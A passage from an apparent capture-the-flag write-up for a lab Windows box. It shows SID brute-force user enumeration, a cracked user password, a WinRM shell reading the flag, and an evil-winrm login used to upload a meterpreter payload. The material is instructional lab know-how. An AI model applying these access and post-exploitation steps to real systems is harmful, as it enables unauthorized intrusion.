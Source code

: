     [*] Brute forcing SIDs at 10.10.10.149
    [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
    500: SUPPORTDESK\Administrator (SidTypeUser)
    501: SUPPORTDESK\Guest (SidTypeUser)
    503: SUPPORTDESK\DefaultAccount (SidTypeUser)
    504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
    513: SUPPORTDESK\None (SidTypeGroup)
    1008: SUPPORTDESK\Hazard (SidTypeUser)
    1009: SUPPORTDESK\support (SidTypeUser)
    1012: SUPPORTDESK\Chase (SidTypeUser)
    1013: SUPPORTDESK\Jason (SidTypeUser)

We have more users now! We can eliminate the `stealth1agent` password as this is
Hazard's password.
A few combination later using winrm, we discover that the user Chase use the
`Q4)sJu\Y8qz*A3?d` password. We have a shell and the user flag:

    :::text
    ruby winrm.rb
    PS > whoami
    supportdesk\chase
    PS > dir ../Desktop


        Directory: C:\Users\Chase\Desktop


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        4/22/2019   9:08 AM            121 todo.txt
    -a----        4/22/2019   9:07 AM             32 user.txt


    PS > type ../Desktop/user.txt
    a127d<redacted>
    PS > type ../Desktop/todo.txt
    Stuff to-do:
    1. Keep checking the issues list.
    2. Fix the router config.

    Done:
    1. Restricted access for guest user.

We can upload a meterpreter (generated with msfvenom) using
[evil winrm](https://github.com/Hackplayers/evil-winrm)

    :::text
    evil-winrm  -i 10.10.10.149 -u ^Case -p 'Q4)sJu\Y8qz*A3?d'

The meterpreter allow us to easy enumerate the box. Let us take a look at the
running process:

    :::text
    meterpreter > ps

    Process List
    ============
